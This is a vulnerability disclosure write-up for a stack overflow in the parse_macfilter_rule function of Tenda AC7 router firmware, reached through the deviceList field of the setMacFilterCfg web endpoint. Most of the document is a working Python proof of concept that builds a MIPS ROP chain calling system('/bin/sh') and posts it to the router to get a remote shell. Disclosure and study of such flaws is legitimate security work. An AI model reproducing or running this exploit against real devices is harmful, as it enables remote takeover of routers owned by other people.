 # Tenda_AC7 V1.0_V15.03.06.44 has a stack overflow vulnerability in parse_macfilter_rule

Vulnerability level: High risk (RCE)

Affected version: Firmware version <= Firmware v1.0_v15.03.06.44

Through the /bin/httpd binary file, we can find the formSetMacFilterCfg function.

The webGetVar program is used to obtain parameters. The parameters of deviceList are directly parsed without any detection

![image-20250720233215867](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250720233215867.png)

Continue to follow up, the final parameter will be passed to parse_macfilter_rule, strcpy can overflow here to control the return address, here we construct the rop chain to execute system('/bin/sh'), and finally successfully getshell, the attacker can remotely attack

![image-20250720233353881](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250720233353881.png)



POC

sudo chroot ./ ./qemu-mipsel-static -g 1234 ./bin/httpd

```
from pwn import *
import requests

#cmd = "echo PWN!"

cmd = b"/bin/sh"
libc_base = 0x7f526000
system=0x0060320
binsh=0x0006AE30
 
gadget1=libc_base+0x00060530
print(hex(gadget1))
gadget2=libc_base+0x0000DC1C
system_addr=libc_base+system
binsh_addr=libc_base+binsh

payload = cyclic(472)

payload+= p32(gadget1)*2+b"A"*20+p32(binsh_addr)+p32(system_addr)+b"A"*12+p32(gadget2)

url = "http://192.168.87.135/goform/setMacFilterCfg"

cookie = {"Cookie":"password=12345"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)

```

Successfully obtained shell

![image-20250720233833000](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250720233833000.png)